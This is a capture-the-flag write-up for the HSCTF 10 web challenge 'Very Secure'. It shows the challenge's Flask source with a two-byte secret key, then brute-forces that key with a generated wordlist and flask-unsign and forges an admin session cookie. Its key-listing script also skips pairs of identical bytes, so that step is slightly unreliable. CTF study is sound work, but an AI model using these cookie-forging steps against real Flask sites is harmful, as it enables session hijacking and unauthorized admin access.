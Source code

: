 ```yaml
---
title: HSCTF 10 - Very Secure
date: Mon Jun  5 10:27:19 PM +04 2023
categories: [Writeup]
tags: [ctf,hsctf2023,web]
---
```


## Description

web/very-secure (by _____) | 439  points

this website is obviously 100% secure

Website: [http://very-secure.hsctf.com/](http://very-secure.hsctf.com/)

File: [very-secure.zip](https://hsctf-10-resources.storage.googleapis.com/uploads/c42f4fd42b991b8429385b1ee1d51c436bdda9d4513ccc8708bebfc685126363/very-secure.zip)

## Analysis

Website is an empty placeholder for content. 

If we take a look inside zip we can find the source code for application.

```py
from flask import Flask, render_template, session
import os

app = Flask(__name__)
SECRET_KEY = os.urandom(2)
app.config['SECRET_KEY'] = SECRET_KEY
FLAG = open("flag.txt", "r").read()

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/flag')
def get_flag():
    if "name" not in session:
        session['name'] = "user"
    is_admin = session['name'] == "admin"
    return render_template("flag.html", flag=FLAG, admin = is_admin)

if __name__ == '__main__':
    app.run()
``` 

Flag is located at `/flag` but we need `admin` privileges. privilege is checked from session (cookie). So we have to decode the cookie, change the value, encode and replace.

## Solution

 First I generated all possible keys which `os.urandom(2)` can generate.
```py
from itertools import permutations

i=0
with open("keys", "wb") as f:
    for perm in permutations(range(256), 2):
        f.write(bytearray(perm) + b'\n') # <-- Byte + Byte + NewLine
        print(f"> {i}", end='\r') # Verbosity
        i += 1
    print(f"> Total Permutation: {i}")
```

After that I used ***[flask-unsign](https://pypi.org/project/flask-unsign/)*** to get the secret key.

```sh
└─$ flask-unsign --wordlist ./keys \
                 --cookie 'eyJuYW1lIjoidXNlciJ9.ZH349A.jQk3KOPjom-FKwZ_GP3YbIghuNg' \
                 --unsign \
                 --no-literal-eval
[*] Session decodes to: {'name': 'user'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 29056 attempts
b'p6'
```

Forge new key
```sh
└─$ flask-unsign --sign --cookie '{"name":"admin"}' --secret "p6"                                                        
eyJuYW1lIjoiYWRtaW4ifQ.ZH4lnA.GsW8WfuPW2L_4NS_9oLsNhOu2rU
```

Change cookie value -> Visit `/flag` -> Submit